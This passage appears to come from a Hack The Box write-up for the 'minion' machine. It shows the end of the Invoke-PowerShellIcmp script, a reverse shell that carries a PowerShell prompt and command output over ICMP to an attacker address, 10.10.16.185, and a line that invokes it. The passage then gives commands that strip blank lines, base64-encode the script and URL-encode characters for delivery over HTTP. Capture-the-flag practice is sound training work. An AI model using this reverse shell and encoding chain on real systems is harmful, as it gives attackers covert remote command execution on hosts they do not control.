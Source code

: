 ```
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                }
            }
            else
            {
                $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes, $PingOptions) | Out-Null
            }
            $sendbytes = ([text.encoding]::ASCII).GetBytes("`nPS " + (Get-Location).Path + '> ')
            $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
        }
        else
        {
            Start-Sleep -Seconds $Delay
        }
    }
}
Invoke-PowerShellIcmp -IPAddress 10.10.16.185
```

Create the new file without empty lines:

```
❯ cat Invoke-PowerShellIcmp.ps1 | sed '/^\s*$/d' > icmp.ps1
```

#### Transfer via HTTP a Base64 file

Since the target system is Windows is better to use PowerShell to avoid encoding problems:

```
PS /home/kali/htb/minion> $file=Get-Content -Raw ./icmp.ps1
PS /home/kali/htb/minion> $bytes=[System.Text.Encoding]::Unicode.GetBytes($file)
PS /home/kali/htb/minion> $encode=[Convert]::ToBase64String($bytes)
PS /home/kali/htb/minion> $encode | Out-File icmp.ps1.b64
```

Check if there are base64 bad characters for the URL transmission:

```
❯ cat icmp.ps1.b64 | grep "+"
❯ cat icmp.ps1.b64 | grep "="
```

Get the URL encoding of those characters:

```php
❯ php --interactive
Interactive mode enabled

php > print urlencode("+");
%2B
php > print urlencode("=");
%3D
php >
```
